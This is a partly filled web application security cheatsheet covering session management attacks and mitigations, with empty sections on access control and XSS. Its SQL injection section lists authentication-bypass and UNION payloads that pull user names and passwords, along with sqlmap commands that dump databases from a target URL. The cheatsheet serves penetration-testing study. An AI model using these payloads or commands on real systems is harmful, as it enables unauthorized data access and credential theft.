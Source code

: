 Web Application Security Cheatsheet - NORMAL
==============================================

## Table of Contents

- [Session Management](#session-management)  
- [Access Controls](#access-controls)  
- [Cross-Site Scripting (XSS)](#cross-site-scripting)  
- [SQL Injection](#sql-injection)  

## Session Management
---

**Summary**  

Anatomy of a session cookie:  
_REQUEST: Server -> Client_
![Server -> Client](Resources/Cookie1.png)  
_REQUEST: Client -> Server_  
![Client -> Server](Resources/Cookie2.png)  

**Exploitation**  

Session Creation:  
* Attack the PRNG (pseudo-number-generator) and generate my own token?
  * Perform a brute force attack if PRNG is weak / patterns can be inferred.
* Hijack a valid user session by stealing their token after they log in.  

Session Handling / Transfer / Usage:  
* Steal the user cookie via. XSS.
  * Mitigated by `HttpOnly` flag: instructs web browsers not to allow scripts to access cookies. via the DOM document.cookie object.
* Steal the user cookie via. redirection to an external page.  

Session Clean-Up:
* Check / change cookie expiration.  

XXS via. cookies:
* Insert XSS payload into cookie content.  

**Mitigation**  

Session Creation:
* New tokens should be issued on login / privilege change.  
* Don't use persistent cookies or cacheable cookies.
* Set `HttpOnly` flag.  

Session Handling / Transfer / Usage:  
* Perform server-side validation of a user's session.  
* Don't reveal session tokens in a URL parameter.  
* Disable web-browser cross-tab sessions.  

Session Clean-up:
* Destroy sessions tokens appropriately: implement token expiration, avoid token re-use.  
* Force session logout on web browser window close events.  

## Access Controls
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Cross-Site Scripting
---

**Summary**

**Exploitation**

**Mitigation**


## SQL Injection
---  

More SQLi cheatsheets: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

**Summary**  

`UNION` operator is used to combine the resulting set of 2 or more SELECT statements.
* e.g. `SELECT name FROM customers UNION SELECT name FROM suppliers`
* ^Combines customer and suppliers names in one table, displaying distinct rows only.
* `UNION ALL` is the same but displays all rows.  

**Exploitation: Manual**  

Authentication Bypass
```SQL
BLIND
' or '1'='1

SELECT
' UNION ALL SELECT CURRENT_USER, '1
' UNION ALL SELECT name,pass FROM users WHERE name="noone"--    # whitespace needed after -- comment

INSERT
" INSERT INTO users (user, pass, uuid) VALUES ('brian', 'brian', '123')
```

**Exploitation: Sqlmap**  

Dump everything + level 4 tests + 10 threads.  
`python sqlmap.py -u https://example.com/?id=1 -a --level=4 --threads=10`  

Dump a specific table within a database  
`python sqlmap.py -u https://example.com/?id=1 --dump -D DATABASE -T TABLENAME`  

Enumerate information inside `information_schema.tables`:
* This is a standard MySQL table which will contain metadata for every table within a database.




**Mitigation**

